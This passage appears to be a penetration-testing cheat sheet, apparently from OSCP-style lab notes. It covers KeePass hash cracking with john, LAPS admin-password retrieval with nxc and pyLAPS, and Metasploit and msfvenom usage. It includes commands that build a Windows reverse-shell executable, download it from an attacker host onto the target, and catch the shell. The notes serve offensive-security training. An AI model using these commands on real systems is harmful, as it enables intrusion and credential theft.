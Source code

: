 `git fsck`: Perform a filesystem check on the repository.
	- `git fsck`

## Keepass

To crack the entry password:
- `keepass2john Database.kdbx > Database.hash`
- then `john --format=keepass Database.hash` for entry password
- then `kpcli --kdb Database.kdbx`
	- then `ls` `cd $Directory` and `show "$Full Entry"

## LAPS

### To get LAPS password ("ms-mcs-AdmPwd") either:
1. `nxc ldap $target -u $user -p $password --kdcHost $target -M laps`
2. `python3 pyLAPS.py --action get -u '$user' -d 'butchy.offsec' -p '$password' --dc-ip $target`
3. pyLAPS.py can also get it using NTLM (`-p NTLM:NTLM`)

## Metasploit

### Initial Usage
Selecting a module:
  - show auxiliary - shows auxiliary modules
  - search type:auxiliary smb - searches for auxiliary modules which include smb
  - info - after selecting learn more about the module
  - vulns - after running check to see if there were any discovered
  - creds - check for any creds discovered during the use of msfconsole
  - search Apache 2.4.49 - search for Apache 2.4.49 exploits
 Dealing with sessions:
  - sessions -l - list sessions 
  - sessions -i 2 - initiate session 2
Dealing with channels (meterpreter):
  - ^Z - background channel - y
  - channel -l - list channels
  - channel -i - channel -i 1
Dealing with jobs:
  - run -j
  - jobs - checks for runnign jobs

Local commands:
  - lpwd - local (attacking machine) pwd
  - lcd - local (attacking machine) cd
  - upload /usr/bin/$binary /tmp/ - uploads binary such as linux-privesc-check from Attacking machine to target

Payloads (msfvenom)
  - msfvenom -l payloads --platform windows --arch x64 - lists payloads for windows 64 bit 
  - msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.157 LPORT=443 -f exe -o nonstaged.exe - creates a reverse shell tcp payloads on that for attacker (LHOST) with the exe format and the name nonstaged.exe
  - iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe (execute from Target to download shell)
    - use nc -lvnp 443 or multi/handler
  - use multi/handler - exploit in msf
  - set payload windows/x64/shell/reverse_tcp - so either set up in nc or msfconsole's multi/handler
